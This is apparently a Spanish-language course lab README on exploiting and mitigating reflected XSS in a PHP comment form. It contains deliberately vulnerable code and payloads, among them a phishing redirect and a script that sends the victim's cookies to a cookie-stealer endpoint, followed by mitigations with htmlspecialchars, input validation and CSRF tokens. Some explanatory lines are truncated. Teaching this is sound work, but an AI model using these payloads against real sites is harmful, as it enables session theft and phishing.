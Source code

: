 # PPS-Unidad3Actividad5-XSS
Explotación y Mitigación de Cross-Site Scripting (XSS)
===
Tenemos como objetivo:

> - Recordar cómo se pueden hacer ataques de Cross-Site Scripting (XSS)
>
> - Conocer las diferentes formas de ataques XSS.
>
> - Analizar el código de la aplicación que permite ataques de Cross-Site Scripting (XSS)
>
> - Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

## ¿Qué es XSS?
---
Cross-Site Scripting (XSS) ocurre cuando una aplicación no valida ni sanitiza l>
scripts maliciosos se ejecuten en el navegador de otros usuarios.

Tipos de XSS:
- **Reflejado**: Se ejecuta inmediatamente al hacer la solicitud con un payload>
- **Almacenado**: El script se guarda en la base de datos y afecta a otros usua>
- **DOM-Based**: Se inyecta código en la estructura DOM sin que el servidor lo >

---
## ACTIVIDADES A REALIZAR
> Lee detenidamente la sección de Cross-Site Scripting de la página de PortWigger <https://portswigger.net/web-security/cross-site-scripting>

> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Inyección SQL](./files/ExplotacionYMitigacionXSS.pdf) de Raúl Fuentes. Nos va a seguir de guía para aprender a explotar y mitigar ataques de inyección XSS Reflejado en nuestro entorno de pruebas.
 
> También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting).

Vamos realizando operaciones:

### Código vulnerable
---
Crear el archivo vulnerable comment.php:

~~~
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

Este código muestra un formulario donde el usuario puede ingresar un comentario en un campo de texto. Cuando
el usuario envía el formulario, el comentario ingresado se muestra en la pantalla con el mensaje "Comentario publicado:
\[comentario\]". 

El Código no sanitiza la entrada del usuario, lo que permite inyectar scripts maliciosos.

![](images/xss1.png)

### **Explotación de XSS**
---

Abrir el navegador y acceder a la aplicación: <http://localhost/comment.php>

Ingresar el siguiente código en el formulario:

`<script>alert('XSS ejecutado!')</script>`

Si aparece un mensaje de alerta (alert()) en el navegador, significa que la aplicación es vulnerable.

![](images/xss2.png)

Podríamos redirigir a una página de phishing:

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![](images/xss3.png)


**Podemos capturar cookies del usuario (en ataques reales):**
---
Con esto, un atacante podría robar sesiones de usuarios.

~~~
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
~~~

![](images/xss4.png)

Si lo quieres ver, crea en tu servidor web una carpeta con nombre cookieStealer y copias en el archivo coockieStealer/index.php [este archivo php](files/steal.php)
En el caso de que estés utilizando la máquina docker de la pila LAMP, recuerda que tienes que conectarte al servidor PHP primero
~~~
docker exec -it lamp-php83 /bin/bash
~~~
creamos directorios y ficheros:
~~~
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
touch /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt

~~~

En el archivo cookie.txt del servidor del atacante se habrá guardado los datos de nuestra cookie:

![](images/xss8.png)

Puedes investigar más en <https://github.com/TheWation/PhpCookieStealer/tree/master>
### **Mitigación**
---
**Uso de filter_input() para filtrar caracteres.**
---
Filtra caracteres problemáticos.

Crea el documento comment1.php con el siguiente contenido:

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

    // Validación
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
~~~

![](files/xss5.png)

Creamos una función filter_string_polyfill que nos va a eliminar todos los caracteres nulos y nos cambia caracteres conflictivos.

**Sanitizar la entrada con htmlspecialchars()**
---
htmlspecialchars() convierte caracteres especiales en texto seguro:
- <script> → &lt;script&gt;
- " → &quot;
- ' → &#39;

Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.

Crea un archivo comment2.php con el siguiente contenido 

~~~
<?php
if (isset($_POST['comment'])) {
	$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
	echo "Comentario publicado: " . $comment;
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

![](images/xss5.png)

Aunque usar htmlspecialchars() es una buena medida para prevenir ataques XSS, todavía se puede mejorar la
seguridad y funcionalidad del código con los siguientes puntos:

**Validación de entrada**
---

Actualmente, el código permite que el usuario envíe cualquier contenido, incluyendo texto vacío o datos
demasiado largos. Puedes agregar validaciones para asegurarte de que el comentario sea adecuado:

Crea un archivo comment3.php con el siguiente contenido:
~~~
<?php
//sanitizar comentario
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
} else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500caracteres.";
}
?>

<form method="post">
        <input type="text" name="comment">
        <button type="submit">Enviar</button>
</form>
~~~

Evita comentarios vacíos o excesivamente largos (500 caracteres).

![](files/xss6.png)

**Protección contra inyecciones HTML y JS (XSS)**
---
Si bien htmlspecialchars() mitiga la ejecución de scripts en el navegador, se puede reforzar con strip_tags() si
solo se quiere texto sin etiquetas HTML:

`$comment = strip_tags($_POST['comment']);`

Elimina etiquetas HTML completamente. Útil si no quieres permitir texto enriquecido (bold, italic, etc.).

Si en cambio si se quiere permitir algunas etiquetas (por ejemplo, \<b\> y \<i\>), se puede hacer:

`$comment = strip_tags($_POST['comment'], '<b><i>');`

**Protección contra ataques CSRF**
---
Actualmente, cualquiera podría enviar comentarios en el formulario con una solicitud falsa desde otro sitio web.

Para prevenir esto, se puede generar un token CSRF y verificarlo antes de procesar el comentario.

En la [proxima actividad sobre ataques CSRF](https://github.com/jmmedinac03vjp/PPS-Unidad3Actividad6-CSRF) lo veremos más detenidamente.

_Generar y almacenar el token en la sesión_
~~~
session_start();
if (!isset($_SESSION['csrf_token'])) {
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
~~~

_Agregar el token al formulario_
`<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">`

_Verificar el token antes de procesar el comentario_
~~~
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token'])
{
die("Error: Token CSRF inválido.");
}
~~~
Estas modificaciones previenen ataques de falsificación de solicitudes (CSRF).
Crea el archivo comment4.php con todas las mitigaciones:
~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}
session_start();
// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        // Verificar el token CSRF
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !==$_SESSION['csrf_token']) {
                die("Error: Token CSRF inválido.");
        }// Verificar si el comentario ha sido enviado
        // Obtener y sanitizar el comentario
        $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
        $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
    // Validación de longitud y evitar comentarios vacíos.
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Comentarios Seguros</title>
</head>
<body>
        <form method="post">
                <label for="comment">Escribe tu comentario:</label>
                <input type="text" name="comment" id="comment" required maxlength="500">
                <input type="hidden" name="csrf_token" value="<?php echo
$_SESSION['csrf_token']; ?>">
                <button type="submit">Enviar</button>
        </form>
</body>
</html>
~~~

---
## ENTREGA

>__Realiza las operaciones indicadas__

>__Crea un repositorio  con nombre PPS-Unidad3Actividad5-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

>__Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__
